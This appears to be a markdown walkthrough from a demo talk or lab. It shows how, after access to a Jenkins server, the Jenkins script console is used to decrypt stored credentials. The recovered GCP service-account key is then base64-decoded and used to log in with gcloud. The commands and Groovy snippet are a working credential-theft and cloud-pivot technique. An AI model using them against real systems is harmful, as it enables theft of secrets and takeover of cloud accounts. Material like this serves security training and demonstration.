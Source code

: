 # Get Cloud Access
Now that we're in Jenkins, we'll look a bit around

## Secrets
There are predefined secrets.
Some maybe used for Terraform
Lets decrypt them

### Get the secret
Open 
```
    http://jenkins.test.nevervictimconsult.xyz:8080/script
```
and start following script
```java
println( hudson.util.Secret.decrypt("${ENCRYPTED_PASSPHRASE_OR_PASSWORD}") )
```
where `${ENCRYPTED_PASSPHRASE_OR_PASSWORD}` is the encrypted content of the `<password>` or `<passphrase>` XML element that you are looking for.
And in order to get the password value of `${ENCRYPTED_PASSPHRASE_OR_PASSWORD}` go to credentials, update, in the browser "See source code" and you will get the encrypted password in the data field for password. Then use that function.

What you got is the base64 encoded json string for authenticating to GCP.
Next up: decode it.

### decode
Paste it into Kali

```bash
mkdir -p /root/demotalk/cloudAccess
cd /root/demotalk/cloudAccess
nano encrypted.json
```

paste the string into `encrypted.json` and decode it then

```bash
cd /root/demotalk/cloudAccess
cat encrypted.json | base64 --decode > gcpSa.json
```

### Login to GCP

```bash
cd /root/demotalk/cloudAccess
gcloud auth activate-service-account --key-file=gcpSa.json
gcloud init --console-only
```